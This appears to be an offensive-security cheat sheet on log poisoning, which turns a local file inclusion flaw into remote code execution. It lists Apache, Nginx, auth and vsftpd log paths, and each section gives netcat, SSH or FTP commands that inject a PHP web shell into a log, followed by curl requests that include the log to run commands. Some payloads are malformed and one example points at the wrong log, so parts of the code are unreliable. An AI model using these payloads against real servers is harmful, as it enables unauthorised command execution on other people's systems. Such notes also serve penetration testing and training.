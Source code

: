# Overview
Log poisoning is a cyber-attack where adversaries manipulate systems’ log files to conceal their activities or execute malicious codes.

Log poisoning can usually be executed after or as a result of an **[[File Inclusions#Basic]|LFI]]** vulnerability.

# /var/log/apache2/access.log
## Variations

| Operating System / Distro             | Web Server | Access Log File Location             |
|--------------------------------------|------------|--------------------------------------|
| RHEL / Red Hat / CentOS / Fedora     | Apache     | `/var/log/httpd/access_log`          |
| Debian / Ubuntu                      | Apache     | `/var/log/apache2/access.log`        |
| FreeBSD                              | Apache     | `/var/log/httpd-access.log`          |
| Windows                              | Apache     | `C:\xampp\apache\logs`               |
| Linux                                 | Nginx      | `/var/log/nginx/access.log`          |
| Windows                              | Nginx      | `C:\nginx\log`                        |
## Exploit
```bash
# Sending the payload via netcat
nc $TARGET_IP $TARGET_PORT
GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
Host: $TARGET_IP
Connection: close

# Accessing the log file via LFI
curl --user-agent "USER_AGENT" <URL>/?PARAMETER=/var/log/apache2/access.log&cmd=id
```


# /var/log/apache2/error.log

## Variations
| Operating System / Distro             | Web Server | Error Log File Location              |
|--------------------------------------|------------|--------------------------------------|
| RHEL / Red Hat / CentOS / Fedora     | Apache     | `/var/log/httpd/error_log`           |
| Debian / Ubuntu                      | Apache     | `/var/log/apache2/error.log`         |
| FreeBSD                              | Apache     | `/var/log/httpd-error.log`           |
| Windows                              | Apache     | `C:\xampp\apache\logs`               |
| Linux                                 | Nginx      | `/var/log/nginx`                     |
| Windows                              | Nginx      | `C:\nginx\log`                        |
## Exploit
```bash
# Sending the payload via netcat
nc $TARGET_IP $TARGET_PORT
GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
Host: $TARGET_IP
Connection: close

# Accessing the log file via LFI
curl --user-agent "USER_AGENT" <URL>/?PARAMETER=/var/log/apache2/error.log&cmd=id
```



# /var/log/auth.log
When trying to login via SSH the attempt will be logged in the log file. With **[[File Inclusions#Basic]|LFI]]** allows the attacker to query the file where the command queried during the SSH login is then seen.
```bash
# Sending the payload via SSH
ssh '<php phpinfo(); ?>'@$TARGET

# Accessing the log file via LFI
curl --user-agent "USER_AGENT" <URL>/?PARAMETER=/var/log/apache2/error.log&cmd=id
```


# /var/log/vsftpd.log
If [[21 - FTP]] is available then you can try to access the log file. If the content is displayed then you might be able to send a crafted payload to the server, which will then be echoed to the file.
```bash
# Sending the payload via FTP
ftp $TARGET_IP
'<php system($_GET['cmd'])?>'

# Accessing the log file via LFI
curl --user-agent "USER_AGENT" <URL>/?PARAMETER=/var/log/vsftpd.log&cmd=id
```


# References
- [https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/logs-poisoning](https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/logs-poisoning)
- [https://ieeexplore.ieee.org/document/10623179](https://ieeexplore.ieee.org/document/10623179)
- [https://owasp.org/www-community/attacks/Log_Injection](https://owasp.org/www-community/attacks/Log_Injection)